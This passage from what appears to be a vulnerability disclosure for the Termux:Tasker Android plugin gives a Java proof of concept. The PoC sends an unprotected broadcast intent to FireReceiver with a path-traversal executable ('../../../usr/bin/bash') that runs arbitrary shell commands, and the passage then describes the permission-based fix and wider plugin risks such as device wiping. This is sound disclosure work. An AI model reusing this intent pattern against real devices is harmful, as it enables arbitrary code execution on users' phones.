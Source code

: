 Note that it does not require a plugin app to send intents to `FireReceiver`, but any app can send the intent using java. The [`Termux:Tasker Exploit`](/assets/posts/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml) task does just that and uses `Tasker` java actions to emulate how a normal app would send an intent.

### 1. Proof Of Concept

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```

### 1. Fix

1. To send an intent to `FireReceiver` now [requires `com.termux.permission.RUN_COMMAND`](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/AndroidManifest.xml#L45), a `dangerous` runtime permission, to be granted to the calling app, which was [published by Termux app](https://github.com/termux/termux-app/blob/v0.118.0/app/src/main/AndroidManifest.xml#L16). The Tasker app already had requested the permission since `v5.9.3` for [`RUN_COMMAND` intent](https://github.com/termux/termux-app/wiki/RUN_COMMAND-Intent) before the `v0.5` release but other automation apps would have had to request the permission in later versions. ([`26da42f7`](https://github.com/termux/termux-tasker/commit/26da42f7))

2. The canonical path of the executable received by `FireReceiver` was [found](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/java/com/termux/tasker/FireReceiver.java#L70) before it was processed. The `v0.5` release officially added support to allow executables outside the `~/.termux/tasker` directory, but only if user had explicitly added `allow-external-apps=true` to `~/.termux/termux.properties`. ([`a5af3db3`](https://github.com/termux/termux-tasker/commit/a5af3db3))

This dual permission model enforced by android os permission and an app setting for absolute paths provides reasonable security against any arbitrary code execution or privilege escalation unless users grant the permission to untrusted apps.

Check `Termux:Tasker` [`README`](https://github.com/termux/termux-tasker#setup-instructions) for more details on new design.

### 1. Discussion

This kind of vulnerability partly existed because **any app can send intents to plugin apps** of automation apps like `Tasker`. The `Tasker` app and the [`locale`](https://github.com/twofortyfouram/android-monorepo) plugin protocol library it uses were created around `2008`. At that time runtime permissions didn't exist and security and possible dangerous uses of plugins may not have been a top priority/concern. However, it is indeed especially concerning for plugin apps that are granted privileged permissions like device admin/owner and accessibility services or even storage, location, etc. For example the [`SecureTask`](https://play.google.com/store/apps/details?id=com.balda.securetask) plugin needs to be set as device admin or even owner for a lot of its features. If a user has installed the app on their phone and have granted the device admin permission to `SecureTask`, any app could send intents to it directly without going through Tasker to run privileged commands, including **wiping the device**.
